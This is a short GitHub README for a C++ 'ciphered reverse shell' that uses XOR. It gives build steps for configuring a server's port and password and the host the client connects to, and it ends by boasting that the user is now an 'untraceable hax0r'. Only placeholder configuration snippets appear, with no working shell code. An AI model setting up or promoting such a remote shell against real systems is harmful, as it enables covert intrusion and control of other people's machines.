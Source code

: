 [![License: GPL v3](https://img.shields.io/badge/License-GPLv3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
### Ciphered Reverse Shell using XOR

By using pipes, vfork and execve its posible to manipulate interactively input and output of desired program.

### Building

Open `Server.cpp` and modify the following line:
```cpp
 Server *Srv = new Server(LISTENING-PORT, YOUR-PASSWORD);
```
Save and build with `make server`.

Open `Client.cpp`, first modify `Client` class:
```cpp
class Client{
        private:
                std::string strPassword = YOUR-PASSWORD;

```
Now on `main` specify where client its going to connect:
```cpp
if(Cli->Connect(HOST, PORT)){

```
Save and build with `make client`.


Now you are a untraceable hax0r :v
